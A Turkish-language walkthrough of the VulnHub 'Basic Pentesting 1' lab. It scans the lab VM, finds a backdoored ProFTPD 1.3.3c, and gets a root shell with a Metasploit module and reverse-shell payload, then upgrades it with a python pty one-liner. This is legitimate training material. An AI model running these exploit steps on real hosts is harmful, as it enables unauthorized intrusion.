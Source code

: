 # VULNHUB BASIC PENTESTING 1 WRITEUP

## Makine Kurulumu 
Makineyi kurmak için https://download.vulnhub.com/basicpentesting/basic_pentesting_1.ova dosyasini indirip virtualbox ı kurduktan sonra .ova dosyasına çift 
tıkladıktan sonra ağ olarak köprü ağını seçmeniz yeterli (bu sayede makine direk local ağınıza bağlanıcak). 

## Çözüm Adımları 
Makinenin ip sini öğrenmek için netdiscover aracını kullanıyoruz: 

```bash
netdiscover 
```

![Resim1](pics/lab1_1.png)

ip yi tespit ettikten sonra rustscan aracı ile port taraması başlatıyoruz: 
```bash
rustscan -a 192.168.1.60 -- -sC -sV 
```
-a ip belirtir 
-- rustscanden nmap e geçer 
-sC nmap e script taraması yapmasını söyler 
-sV nmap e versiyon taraması yapmasını söyler 

![Resim2](pics/lab1_2.png)


![Resim3](pics/lab1_3.png)

Tarama sonucunda 21 portunda ProFTP 1.3.3c servisinin çalıştığını görüyoruz. Bu yazılım üzerinde bilinen bir zafiyet olup olmadığına bakmak için metasploitte 
arama yapıyoruz: 

```bash
msfconsole -q
```
-q metasploiti bannersiz daha hızlı açmayı sağlar 

```bash
search proftp
```

![Resim4](pics/lab1_4.png)

Yaptığımız arama sonucunda bu sürüm için metasploitte bir backdoor olduğunu görüyoruz . Exploiti çalıştırmak için aşağıdaki komutları kullanıyoruz: 

```bash
use 17
```
```bash
set rhosts 192.168.1.60
```
```bash
set rport 21 
```
```bash
show payloads
```
```bash
set payload 4 
```
```bash
set lhost 192.168.1.59
```
```bash
set lport 1337 
```
```bash
run 
```

Ve içerdeyiz. Shellimizi interaktif hale getirmek için aşağıdaki python kodlarını kullanıyoruz: 

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```
![Resim5](pics/lab1_5.png)

Bu sayede pythondaki pty kutuphanesi ile bash shell i almış oluyoruz . Kim olduğumuzu kontrol ettiğimizde ise root olduğumuzu görüyoruz ve privilege 
escalation yapmamıza gerek kalmamasının mutluluğu içerisinde odayı bitiriyoruz. 





